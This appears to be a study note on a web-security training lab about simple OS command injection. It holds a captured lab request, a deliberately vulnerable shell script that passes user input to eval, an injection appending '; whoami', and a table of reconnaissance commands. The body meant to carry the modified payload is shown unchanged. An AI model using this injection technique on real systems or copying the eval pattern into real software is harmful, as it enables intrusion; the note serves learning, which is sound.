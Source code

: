 # Executing Arbitrary Command

## Lab: OS command injection, simple case

Sample request
```
POST /product/stock HTTP/1.1
Host: ace71f1f1f4be8b2802307bb00bd00ce.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ace71f1f1f4be8b2802307bb00bd00ce.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://ace71f1f1f4be8b2802307bb00bd00ce.web-security-academy.net
Connection: close
Cookie: session=Lz8JI5iAyVQkMuRmeoIWRzL9jateSHot

productId=1&storeId=1
```

Example case:
productId = $1
storeId = $2

stockreport.sh
```
#!/bin/bash

set -eu

eval cksum <<< "$1 $2" | cut -c 2-3 | rev | sed s/0/1/
```

Modified body parameter:
```
productId=1&storeId=1
```

Command injection:
```
$ stockreport.sh productId storeId; whoami
```

![1430ab703e5ec5cfe85fa140b55cce35.png](./_resources/a628bb431a5242a88bac1e44b833bd70.png)

## Useful Commands

Initial commands to obtain information.

| Purpose of command 	| Linux 	| Windows | 
| ----------------------| ----------| -------|
| Name of current user 	| whoami 	| whoami |
| Operating system 	| uname -a 	| ver |
Network configuration 	| ifconfig 	| ipconfig /all |
Network connections | netstat -an 	| netstat -an
Running processes 	| ps -ef 	| tasklist 